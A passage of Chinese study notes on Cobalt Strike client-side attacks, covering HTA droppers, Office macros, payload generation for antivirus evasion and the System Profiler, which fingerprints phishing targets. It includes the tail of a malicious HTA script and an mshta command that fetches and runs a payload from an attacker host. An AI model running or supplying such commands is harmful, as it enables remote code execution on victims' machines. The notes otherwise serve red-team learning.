 ```html
' Restore the registry to its old state
if action = "" then
    WshShell.RegDelete RegPath
else
    WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
</script></head></html>
```

执行上线很简单，使用 mshta 执行 .hta 文件即可。

```cmd
mshta http://192.168.0.102:80/download/file.ext
```



### MS Office Macro--待学习

微软 Office Word，Excel，PowerPoint 常说宏都是用 VBA（Visual Basic for Application）编写的，这个宏的作用是可以访问部分 Windows API 模拟键盘、鼠标等操作。



### Payload Gennerator

生成原始 Payload用来当作免杀的原材料。



### Windows Executable/Executable (S)



## Web Drive-by（钓鱼攻击）

### System Profier

系统侦察`System Profiler`是一个方便客户端攻击的侦察工具，这个工具将会在CS服务端上启动一个Web服务，这样当目标访问这个Web服务的时候，我们就能够看到目标使用的浏览器、操作系统等等指纹信息。

![image-20231011233039941](../images/image-20231011233039941.png)
